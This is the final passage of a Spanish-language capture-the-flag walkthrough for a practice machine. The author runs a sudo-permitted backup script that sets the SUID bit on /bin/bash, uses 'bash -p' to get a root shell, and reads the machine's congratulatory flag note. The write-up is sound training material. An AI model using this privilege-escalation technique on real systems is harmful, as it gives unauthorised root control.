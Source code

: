 Ejecutamos el script:
```bash
john@TheHackersLabs-Gyhabogados:~/tools$ sudo /usr/bin/python3 /home/john/tools/backup.py
john@TheHackersLabs-Gyhabogados:~/tools$ 
```

Y volvemos a revisar los permisos de la **Bash**:
```bash
john@TheHackersLabs-Gyhabogados:~/tools$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Mar 29  2024 /bin/bash
```
Ya tiene los **permisos SUID**.

Ejecutemos la **Bash** con privilegios:
```bash
john@TheHackersLabs-Gyhabogados:~/tools$ bash -p
bash-5.2# whoami
root
```
Somos **Root**.

Obtengamos la última flag:
```bash
bash-5.2# cd /root/
bash-5.2# ls
Maildir  notes.txt  vboxpostinstall.sh
bash-5.2# cat notes.txt 
███████ ██           ██████  █████  ███    ██ ██████  ██ ██████   █████  ████████  ██████  
██      ██          ██      ██   ██ ████   ██ ██   ██ ██ ██   ██ ██   ██    ██    ██    ██ 
█████   ██          ██      ███████ ██ ██  ██ ██   ██ ██ ██   ██ ███████    ██    ██    ██ 
██      ██          ██      ██   ██ ██  ██ ██ ██   ██ ██ ██   ██ ██   ██    ██    ██    ██ 
███████ ███████      ██████ ██   ██ ██   ████ ██████  ██ ██████  ██   ██    ██     ██████  
                                                                                        
¡Felicidades, hacker!

Has logrado rootear la máquina.

Recuerda, la ciberseguridad es un campo en constante evolución. Los desafíos son solo una pieza del rompecabezas; 
sigue aprendiendo, explorando y compartiendo tu conocimiento.

Si te gustó este CTF, ¡cuéntaselo a otros! Y si encontraste errores o tienes sugerencias, no dudes en hacérmelo saber.

Flag: ****************

"La verdadera fuerza de voluntad está en fallar una y otra vez, y al final tener éxito" 
--- David Goggins
bash-5.2#
```
Qué bonito mensaje.

Con esto, terminamos la máquina.

